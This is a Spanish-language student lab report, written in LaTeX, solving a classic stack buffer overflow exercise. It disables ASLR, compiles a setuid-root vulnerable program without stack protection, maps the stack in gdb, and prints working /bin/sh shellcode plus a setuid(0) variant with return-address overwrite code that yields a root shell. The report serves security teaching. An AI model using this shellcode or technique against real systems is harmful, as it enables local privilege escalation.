\documentclass[11pt]{article}
\usepackage[a4paper, margin=1.5cm]{geometry}
\usepackage[utf8]{inputenc}
\usepackage[spanish, mexico]{babel}
\usepackage[spanish]{layout}
\usepackage[article]{ragged2e}
\usepackage{graphicx}

\title{
    Trabajo Práctico  N° 2 \\
    \large Seguridad Informática}
\author{Farizano, Juan Ignacio}

\date{}

\begin{document}

\maketitle
\rule{\textwidth}{1pt}

\section*{}
Para este trabajo práctico decidí resolver el laboratorio de \textbf{Buffer Overflow}: los
ejercicios básicos y un adicional.

\section*{Resolución}

Para este problema me son provistos dos archivos:

\begin{itemize}
    \item \textbf{stack.c}: Programa con una vulnerabilidad provocada por copiar
    datos a memoria sin comprobar su longitud.
    \item \textbf{exploit.c}: Programa creado para generar una entrada que leerá
    \textbf{stack} y aprovechar su vulnerabilidad ya mencionada para obtener
    privilegios de root.
\end{itemize}

\subsection*{Medidas de seguridad}

Los primeros apartados son triviales, para simplificar el ataque necesito
desactivar ciertas medidas de seguridad mencionadas en el enunciado, como la
aleatorización la dirección inicial del heap y el stack, stack no ejecutable, etc.

Para esto ejecuto los siguientes comandos en consola:
\begin{verbatim}
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
\end{verbatim}

Para compilar el programa \textbf{stack} tengo que utilizar ciertas banderas y modificar
los permisos del ejecutable, para automatizar esto creé un Makefile,
a continuación la sección del archivo para compilar \textbf{stack}:
\begin{verbatim}
stack:
    gcc stack.c -o stack -z execstack -fno-stack-protector
    sudo chown root stack
    sudo chmod 4755 stack
\end{verbatim}

\subsubsection*{Analizando el código de stack}

La función main del archivo comienza leyendo 517 bytes desde un archivo llamado
\textbf{badfile} que será el que generemos utilizando el programa \textbf{exploit}
y lo guarda en un arreglo llamado str, ejecutando las siguientes líneas:
\begin{verbatim}
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
\end{verbatim}

Luego llama a la función bof pasándole como argumento str, dentro de esta función
es dónde se va a encontrar la vulnerabilidad. Una vez dentro se ejecutan las
siguientes líneas:

\begin{verbatim}
char buffer[BUF_SIZE];
strcpy(buffer, str);
return 1;
\end{verbatim}

En la primera línea se declara un arreglo de chars de tamaño BUF\_SIZE, donde
BUF\_SIZE es una variable global que vale 24, así que tenemos un arreglo declarado
para guardar 24 chars o 24 bytes.

En la segunda línea se realiza un strcpy(buffer, str) pero strcpy copia a memoria
hasta encontrar un carácter nulo sin verificar el tamaño del arreglo destino,
por lo que en realidad va a copiar los 24 bytes que entran en buffer y luego va
a copiar 493 bytes más pisando lo que se encuentre en la pila por encima de buffer.
Esta es la vulnerabilidad que vamos a explotar para obtener los permisos de administrador.

\subsection*{Debuggeando stack}

Utilizo gdb para debuggear el programa y sacar más información sobre la ejecución
y organización de los datos en memoria.

Con el comando \emph{disass main} puedo ver el código ensamblador y la ubicación de cada instrucción
de la función main en el segmento de texto, de esta forma puedo obtener la dirección
de retorno que debería tener bof guardada en la pila.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{disass.png}
    \end{center}
\end{figure}

Revisando el código ensamblador de las funciones main y bof más utilizando los comandos
provistos por GDB, puedo localizar la dirección de inicio del arreglo buffer y 
la dirección donde va a estar guardada en la pila la dirección de retorno de bof.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{bufferebpra.png}
    \end{center}
\end{figure}

De esta forma puedo bosquejar cómo van a estar organizados los datos que me
interesan en la pila durante la ejecución de bof.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{stack.png}
    \end{center}
\end{figure}

Se puede ver que buffer se encuentra por debajo de la return address que me interesa
modificar, por lo que al hacer el strcpy y sobrepasarme de los límites del arreglo
es posible poner otra dirección que apunte a un bloque de instrucciones que voy
a cargar en memoria y se ejecutarán al retornar bof.
También se puede ver que esta dirección de retorno está 36 bytes por encima
de la dirección de buffer (24 bytes que ocupa buffer + 8 bytes entre buffer y
el ebp guardado de main + 4 bytes que ocupa el ebp de main).

\subsection*{Preparando el exploit}

Una vez visto cómo se comporta \textbf{stack} y cómo van a estar guardados los datos en memoria,
necesito construir el código malicioso que deberá ejecutar bof y calcular la dirección donde
voy a guardar estas intrucciones para que sea la nueva dirección de retorno.

Para esto voy a utilizar el programa \textbf{exploit}. El enunciado ya provee 
las instrucciones necesarias para explotar la vulnerabilidad:

\begin{verbatim}
char shellcode[] =
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;
\end{verbatim}

Decidí guardar estas instrucciones justo por encima de la return address que voy a modificar,
es decir en ebp + 8 = buffer + 40 = 0xbfffeb60. Para guardar estas instrucciones
en el stack tengo que considerar que x86 es una arquitectura \emph{little-endian},
es decir que va a guardar primero en memoria los bytes menos significativos pero los bytes
del string se almacenan en el orden inverso, por lo que declaro la dirección a guardar
de la siguiente forma:

\begin{verbatim}
char newra[] = "\x60\xeb\xff\xbf";
\end{verbatim}

Creo el string a guardar en un archivo llamado \textbf{badfile} leído por \textbf{stack}
declarando un arreglo buffer de 517 bytes, inicializado con todos sus bytes iguales
a 0x90 (que es igual a la instrucción NOP, esta instrucción no se ejecuta y pasa a la siguiente),
y copio los valores preparados respetando las posiciones calculadas anteriormente.
\begin{verbatim}
memcpy(buffer + 36, newra, 4);
memcpy(buffer + 40, shellcode, 24);
\end{verbatim}

Utilizo memcpy en vez de strcpy ya que strcpy también me va a copiar el caracter nulo,
haciendo que luego cuando \textbf{stack} lea este archivo el strcpy en bof también
va a dejar de copiar cuando encuentre un caracter nulo y no quiero eso.

\subsection*{Ejecutando el exploit}

Compilando y ejecutando el programa \textbf{exploit} obtengo el archivo \textbf{badfile}
y puedo correr \textbf{stack} para ver si exploté correctamente la vulnerabilidad.

Debuggeando puedo ver que el shellcode se copió en memoria correctamente en la 
dirección esperada.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{shellcodeonstack.png}
    \end{center}
\end{figure}

Y si ejecuto el programa desde consola puedo ver que efectivamente tengo acceso
de root.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{exploitworking.png}
    \end{center}
\end{figure}

\textbf{Nota:} El programa debo ejecutarlo debo utilizando su path absoluto,
ya que al debuggear con gdb, gdb ejecuta con este path y no con su path relativo
al directorio actual, cargando esto en memoria y modificando todas las direcciones.

\subsection*{Ejercicio adicional 2.5}
Una de las medidas de seguridad desactivadas al principio es cambiar la shell utilizada
por el sistema cuando se realiza la llamada al sistema por el exploit, la shell
\textbf{dash} detecta cuando la UID efectiva no es igual a la UID real y descarta
los privilegios de root. La forma de evitar esto al principio fue utilizando otra shell,
en este caso \textbf{zsh}, pero en este ejercicio volvemos a utilizar \textbf{dash}
y se supera esta medida mediante otro método.

Para esto se setea la UID a 0 (root) antes de llamar a la shell y esta modificación
es fácil de realizar, donde se le agregan unas líneas al principio del shellcode anterior:

\begin{verbatim}
char shellcode[] =
    "\x31\xc0" /* Line 1: xorl %eax,%eax */
    "\x31\xdb" /* Line 2: xorl %ebx,%ebx */
    "\xb0\xd5" /* Line 3: movb $0xd5,%al */
    "\xcd\x80" /* Line 4: int $0x80 */
    // ---- The code below is the same as the one in Task 2 ---
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;
\end{verbatim}

La dirección de retorno que reemplaza la original sigue siendo la misma ya que
las instrucciones comienzan desde el mismo lugar, lo único que hay que modificar
es la cantidad de bytes a copiar con memcpy.

\begin{verbatim}
    char newra[] = "\x60\xeb\xff\xbf";
    memcpy(buffer + 36, newra, 4); 
    memcpy(buffer + 40, shellcode, 32);
\end{verbatim}

Luego compilo y ejecuto y puedo ver que efectivamente nuevamente tengo privilegios
de administrador.

\begin{figure}[h!]
    \begin{center}
        
\includegraphics[width=0.75\linewidth]{exploit2working.png}
    \end{center}
\end{figure}

\end{document}
